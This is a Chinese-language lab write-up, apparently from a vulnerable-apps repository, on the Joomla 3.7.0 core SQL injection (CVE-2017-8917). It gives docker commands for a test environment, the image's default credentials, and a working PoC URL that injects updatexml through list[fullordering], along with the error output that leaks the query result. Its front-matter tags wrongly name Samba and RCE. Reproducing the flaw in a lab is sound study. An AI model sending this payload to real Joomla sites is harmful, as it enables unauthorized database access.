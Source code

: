 ```yaml
---
layout: post
title: "Joomla! 3.7.0 Core SQL Injection (CVE-2017-8917)"
date: 2017-05-18 21:09:35 +0800
image: '/assets/img/'
description: 'Joomla! 3.7.0 版本存在SQL注入漏洞，攻击者可以在未授权的情况下进行SQL注入'
main-class: 'hole'
color: '#B31917'
tags:
- Samba
- RCE
categories:
- Samba
twitter_text: 'Joomla! 3.7.0 版本存在SQL注入漏洞，攻击者可以在未授权的情况下进行SQL注入'
introduction: 'Joomla! 3.7.0 版本存在SQL注入漏洞，攻击者可以在未授权的情况下进行SQL注入'
---
```


### 漏洞信息

Joomla于5月17日发布了新版本3.7.1,（(Joomla! 3.7.1 Release News)[https://www.joomla.org/announcements/release-news/5705-joomla-3-7-1-release.html]），本次更新中修复一个高危SQL注入漏洞（[[20170501] - Core - SQL Injection](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html))，成功利用该漏洞后攻击者可以在未授权的情况下进行SQL注入。

详细参考：[Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/administrator/ | admin | admin123


### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:j_joomla_2
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8000:80 medicean/vulapps:j_joomla_2
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC 使用

```
http://你的 IP 地址:端口号/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20md5(1))),1)
```

看到结果成功执行了 `select md5(1)`：

```
If difficulties persist, please contact the System Administrator of this site and report the error below.

500 XPATH syntax error: 'c4ca4238a0b923820dcc509a6f75849b'
```

### 相关链接

* [SQL Injection Vulnerability in Joomla! 3.7](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html)
* [Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)
* [[20170501] - Core - SQL Injection](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html)
